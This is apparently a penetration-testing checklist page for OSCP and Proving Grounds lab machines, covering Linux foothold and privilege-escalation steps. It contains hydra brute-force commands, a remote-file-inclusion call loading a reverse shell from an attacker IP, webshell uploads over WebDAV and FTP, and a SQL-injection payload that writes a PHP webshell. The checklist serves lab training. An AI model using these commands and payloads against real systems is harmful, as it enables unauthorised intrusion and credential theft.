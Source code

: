 ```yaml
---
layout:
  width: default
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
  metadata:
    visible: true
---
```


# Linux

{% hint style="info" %}
Based on the following PG Practice, PG Play, and PEN-200 boxes: Amaterasu, Apex, Astronaut, BBScute, BitForge, Blogger, Bratarina, Bullybox, ClamAV, Clue, Cockpit, Exfiltrated, Extplorer, Fanatastic, Fired, Flu, FunboxEasyEnum, Gaara, GlasgowSmile, Hawat, Hetemit, Hunit, LaVita, Levram, Loly, Mantis, Marketing, Mzeeav, Nibbles, Nukem, Payday, PC, Pebbles, Pelican, Peppo, Postfish, Potato, QuackerJack, Readys, Roquefort, Scrutiny, Snookums, Sorcerer, SpiderSociety, SPX, Stapler, Sybaris, Vmdak, Walla, WallpaperHub, Wombo, Workaholic, Xposedapi, Zab, ZenPhoto, Zipper,  Crystal (OSCP A), Aero (OSCP A), Berlin (OSCP B), Kiero (OSCP B),  Frankfurt (OSCP C), and Charlie (OSCP C).
{% endhint %}

## Foothold

<details>

<summary>Port Scan</summary>

The `nmap-scan` script can be found [here](https://github.com/CSpanias/ctf-scripts/tree/main?tab=readme-ov-file#nmap-scansh).

```bash
sudo nmap-scan <target-IP>
```

</details>

<details>

<summary>HTTP(S)</summary>

* [ ] [Dirbust](../../web/dirbusting.md) HTTP(S) ports with a [directory list](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/raft-large-directories.txt) (plus server-specific extensions) and a [file list](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/raft-large-files.txt)&#x20;

{% code overflow="wrap" %}
```bash
# Dirbust with a directory list
ffuf -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -ic -ac -c -u http://access/FUZZ -e .aspx,.php,
​
​# Dirbust with a file list
ffuf -w /usr/share/seclists/Discovery/Web-Content/raft-large-files.txt -ic -ac -c -u http://access/FUZZ
```
{% endcode %}

* [ ] [File Uploads](https://x7331.gitbook.io/boxes/web/file-uploads)
* [ ] Default/Weak Creds

```bash
uv run creds search <appName>
```

* [ ] BFA

{% code overflow="wrap" %}
```bash
# POST request
hydra -L /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt -P /usr/share/wordlists/rockyou.txt 'http-post-form://target:8081/login.aspx:username=^USER^&password=^PASS^:F=403'

# POST request (base64-encoded credentials)
hydra -L /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt -P /usr/share/wordlists/rockyou.txt 'http-post-form://target:8081/login.aspx:username=^USER64^&password=^PASS64^:F=403'
```
{% endcode %}

* [ ] Application-specific PoCs (RCE, LFI, RFI)

{% code overflow="wrap" %}
```bash
# CLI tool
searchsploit <appName> <version>

# Google dork
site:github.com <appName> exploit poc

# RFI revshell
curl --path-as-is -s "http://10.10.10.10:4443/site/index.php?page=http://192.168.45.241:443/revshell_ivan.php" --proxy 127.0.0.1:8080
```
{% endcode %}

* [ ] [WebDAV](https://x7331.gitbook.io/boxes/web/webdav)

{% code overflow="wrap" %}
```bash
# Connect to WebDAV
$ cadaver http://x7331
Authentication required for hutch on server 'x7331':
Username: x7331
Password:
# Upload a webshell
dav:/> put /usr/share/webshells/aspx/cmdasp.aspx cmdasp.aspx

# Upload a webshell directly
$ curl -T '/home/kali/shell.aspx' 'http://192.168.64.122/' -u x7331:Pass123!
```
{% endcode %}

* [ ] [Custom wordlists](https://x7331.gitbook.io/boxes/tools/wordlists)

```bash
# Create a userlist based on the site users
username-anarchy -i site_users > anarchy_output

# Create a passlist based on the site content
cewl --write cewl_output http://192.168.202.21/
```

* [ ] [Git repositories](https://x7331.gitbook.io/boxes/web/devops/git-tools)

```bash
# Dump the repository
git-dumper http://target.lab/.git git_repo

# Write all commits to a file
git log | grep commit | cut -d " " -f2 | xargs git show > commits
​
# Open the commits file with VSCode
code commits
```

* [ ] [SQLi](https://x7331.gitbook.io/boxes/web/injections/sqli) (`sqlmap` is allowed for enumeration but not for exploitation)

{% code overflow="wrap" %}
```bash
# Enumeration
sqlmap -r login.req --batch
```
{% endcode %}

</details>

<details>

<summary><a href="https://x7331.gitbook.io/boxes/services/tcp/remote-access/22-ssh">SSH</a></summary>



</details>

<details>

<summary><a href="../../services/shares/smb-139-445.md#usage">SMB</a></summary>

* [ ] Known vulnerabilities

```bash
sudo nmap -script=smb-vuln\* -p445 10.10.10.10
```

* [ ] List and enumerate shares

{% code overflow="wrap" %}
```bash
# List shares and permissions
$ uv run nxc smb DC01 -u celia.almeda -p 7k8XHk3dMtmpnC7 --shares

# Download the target share
$ nxc smb MS02 -u x7331 -p Pass123! -M spider_plus -o DOWNLOAD_FLAG=True OUTPUT_FOLDER=./ MAX_FILE_SIZE=99999999

# Connect and download all files
$ smbclient //target/share -p 12445
Password for [WORKGROUP\x7331]:
Anonymous login successful        
smb: \> recurse ON
smb: \> prompt OFF
smb: \> mget *
```
{% endcode %}

* [ ] `WRITE` access ([steal hashes](https://x7331.gitbook.io/boxes/services/tcp/shares/139-445-smb#hashes))

</details>

<details>

<summary><a href="https://x7331.gitbook.io/boxes/services/tcp/shares/21-ftp">FTP</a></summary>

* [ ] Anonymous login

{% code overflow="wrap" %}
```bash
# Anonymous login
ftp anonymous@target
ftp ftp@target
```
{% endcode %}

* [ ] BFA

```bash
hydra -l <user> -P <passlist> ftp://<target>
```

* [ ] Enumerate directories

```bash
# Download dir
wget -r ftp://ftp@target_directory
```

* [ ] Upload files

```bash
ftp> put revshell_ivan.php
```

</details>

<details>

<summary><a href="https://x7331.gitbook.io/boxes/services/tcp/mail/25-587-smtp">SMTP</a>, <a href="https://x7331.gitbook.io/boxes/services/tcp/mail/110-995-pop3">POP3</a></summary>

* [ ] Username enumeration (SMTP)

```bash
smtp-user-enum -M VRFY -U anarchy_output -t 10.10.10.10
```

* [ ] Inbox enumeration (POP3)

```bash
$ telnet 10.10.10.10 110
USER x7331
+OK x7331 is known here.
PASS Pass123!
+OK Welcome! 4 messages (4744 bytes)
LIST
+OK 4 messages, 4744 bytes
1 1342
2 963
3 1347
4 1092
RETR 1
```

* [ ] Phising attachments ([library-ms](https://x7331.gitbook.io/boxes/social-engineering/phising#attachment), [libre-office](https://x7331.gitbook.io/boxes/web/file-uploads/file-types/libreoffice), [pdf](https://x7331.gitbook.io/boxes/web/file-uploads/file-types/pdf))

</details>

<details>

<summary><a href="https://x7331.gitbook.io/boxes/services/tcp/dbms/sql/3306-mysql-mariadb">MySQL/MariaDB</a></summary>

{% code overflow="wrap" %}
```bash
# Connect
mysql -h kali -u x7331 -pPass123! --skip-ssl

# Webshell
'UNION SELECT "<?php echo shell_exec($_GET['c']);?>" INTO OUTFILE '/srv/http/webshell.php';-- 
```
{% endcode %}

</details>

<details>

<summary><a href="https://x7331.gitbook.io/boxes/services/udp/161-snmp">SNMP</a></summary>

```bash
# Public strings
snmpwalk -v2c -c public <target>

# User-related strings
snmpwalk -v2c -c public <target> 1.3.6.1.4.1

# System-related strings
snmpwalk -v2c -c public <target> 1.3.6.1.2.1.1

# Running processes
snmpwalk -v2c -c public <target> 1.3.6.1.2.1.25.4.2.1.2

# Grep for keywords
snmpwalk -v2c -c public <target> | grep -Ei 'user|admin|name|passwd'
```

</details>

<details>

<summary><a href="https://x7331.gitbook.io/boxes/services/tcp">​Unique Ports</a></summary>



</details>

## Privilege Escalation

<details>

<summary>User Context</summary>

* [ ] [Permissions](https://x7331.gitbook.io/boxes/tl-dr/infra/os/linux/host-recon#users-and-groups)

```bash
sudo -l
```

* [ ] [Groups](https://x7331.gitbook.io/boxes/tl-dr/infra/os/linux/privilege-escalation/groups)

```bash
id
groups
```

* [ ] Shell History

{% code overflow="wrap" %}
```bash
cat /home/x7331/.bash_history
```
{% endcode %}

</details>

<details>

<summary>Host Enumeration</summary>

* [ ] [LinPEAS](https://x7331.gitbook.io/boxes/tl-dr/infra/infra-tools/pe-scripts#linux)
* [ ] Running processes ([pspy](https://x7331.gitbook.io/boxes/tl-dr/infra/infra-tools/pspy), let it run for at least two minutes)
* [ ] [SUIDs and Capabilities](https://x7331.gitbook.io/boxes/tl-dr/infra/os/linux/host-recon#files) ([GTFOBins](https://gtfobins.github.io/))

```bash
# Enumerate SUIDs
find / -type f -perm -u=s 2>/dev/null

# Enumerate capabilities
getcap -r / 2>/dev/null
```

* [ ] [Kernel](https://x7331.gitbook.io/boxes/tl-dr/infra/os/linux/host-recon#system)

```bash
uname -a
```

* [ ] [Local Services](https://x7331.gitbook.io/boxes/tl-dr/infra/os/windows/host-recon#system)

```bash
netstat -ano
```

* [ ] [Cronjobs](https://x7331.gitbook.io/boxes/tl-dr/infra/os/linux/privilege-escalation/cronjobs)

```bash
crontab -l
cat /etc/crontab
cat /var/log/syslog | grep "CRON"
```

* [ ] [Sudo version](https://x7331.gitbook.io/boxes/tl-dr/infra/os/linux/privilege-escalation/binaries/sudo)

```bash
sudo --version
```

* [ ] Environment variables

```bash
env
```

* [ ] Passwords

```bash
grep -rH "password"
```

</details>

<details>

<summary><a href="../../services/shares/smb-139-445.md#usage">SMB</a></summary>

* [ ] List and enumerate shares

{% code overflow="wrap" %}
```bash
# List shares and permissions
uv run nxc smb DC01 -u celia.almeda -p 7k8XHk3dMtmpnC7 --shares

# Download the target share
nxc smb MS02 -u x7331 -p Pass123! -M spider_plus -o DOWNLOAD_FLAG=True OUTPUT_FOLDER=./ MAX_FILE_SIZE=99999999
```
{% endcode %}

* [ ] `WRITE` access ([steal hashes](https://x7331.gitbook.io/boxes/services/tcp/shares/139-445-smb#hashes))

</details>

<details>

<summary><a href="https://x7331.gitbook.io/boxes/services/tcp/dbms/sql/3306-mysql-mariadb">MySQL/MariaDB</a></summary>

* [ ] Enumerate tables

```bash
mysql -h 127.0.0.1 -u x7331 -pPass123! --skip-ssl
```

</details>
